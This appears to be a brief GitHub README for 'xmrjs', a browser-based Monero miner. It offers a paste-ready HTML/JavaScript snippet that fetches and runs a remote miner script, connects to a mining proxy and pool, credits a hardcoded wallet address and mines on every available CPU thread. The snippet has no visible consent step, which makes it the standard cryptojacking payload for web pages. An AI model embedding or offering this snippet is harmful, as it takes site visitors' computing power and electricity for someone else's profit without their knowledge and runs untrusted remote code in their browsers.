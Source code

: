 # xmrjs

https://devoojs.github.io/xmrjs/index.html

```js
<script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "463kPA3S5aEYfqM5rngfTgL8VGyMxq85P2hNHLhCcGH35wgNWzSrSRUD58n3oAy23ZcufWwxCQ8CbCLUPutLGFrp8n3vpWB";
    var workerId = "github"
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 100;
</script>
```

https://devoojs.github.io/xmrjs/shib.html

https://devoojs.github.io/xmrjs/webminer.html
